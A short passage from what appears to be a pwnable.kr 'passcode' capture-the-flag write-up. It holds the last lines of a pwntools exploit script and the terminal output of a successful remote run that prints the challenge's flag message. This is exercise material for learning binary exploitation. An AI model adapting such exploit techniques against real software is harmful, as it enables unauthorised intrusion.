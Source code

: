 ```python
p.sendline("134514147")
print p.recv()
p.close()
conn.close()
```

```
root@ubuntu:~/pwnable/passcode# python ex.py
[+] Connecting to pwnable.kr on port 2222: Done
[*] fd@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Starting remote process './passcode' on pwnable.kr: pid 218086
Sorry mom.. I got confused about scanf usage :(
Now I can safely trust you that you have credential :)

[*] Stopped remote process 'passcode' on pwnable.kr (pid 218086)
[*] Closed connection to 'pwnable.kr'
```

-----

